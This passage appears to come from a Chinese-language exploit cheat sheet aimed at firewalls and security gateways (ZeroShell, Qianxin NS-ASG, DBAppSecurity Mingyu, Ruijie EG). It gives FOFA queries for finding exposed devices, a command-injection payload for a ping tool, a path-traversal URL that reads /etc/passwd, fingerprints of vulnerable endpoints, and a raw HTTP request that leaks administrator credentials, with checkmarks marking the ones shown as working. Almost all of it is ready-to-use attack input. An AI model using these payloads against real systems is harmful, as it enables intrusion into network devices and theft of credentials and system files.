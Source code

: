 ##### 后台命令执行

```
系统管理 --> 维护工具 --> Ping
127.0.0.1|cat /etc/passwd
```

#### ZeroShell

FOFA：

```
app="Zeroshell-防火墙"
```

##### ZeroShell 3.9.0 cgi-bin/kerbynet 命令执行

exp：

- https://www.exploit-db.com/exploits/49096

### 0x04 网关

#### 奇安信 网康 NS-ASG 安全网关

FOFA：

```
网康 NS-ASG 安全网关
```

##### 任意文件读取 ✅

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
```

#### 安恒 明御安全网关 

##### 命令执行/任意文件读取✅

漏洞指纹：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=
/webui/?g=sys_dia_data_down&file_name=
/webui/?g=sys_dia_data_check&file_name=
...
```

#### 锐捷 EG 易网关

##### 管理员账号密码泄露 ✅

获取账号密码：

```
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```
